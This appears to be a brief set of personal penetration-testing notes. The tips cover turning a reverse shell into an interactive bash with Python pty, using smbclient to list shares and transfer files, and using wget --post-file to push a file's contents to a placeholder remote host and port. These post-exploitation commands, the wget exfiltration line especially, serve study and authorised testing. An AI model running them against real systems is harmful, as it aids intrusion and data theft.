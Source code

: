 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is 
supported, then
> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.
> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,
> get file

For uploading a file to remote server,
> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

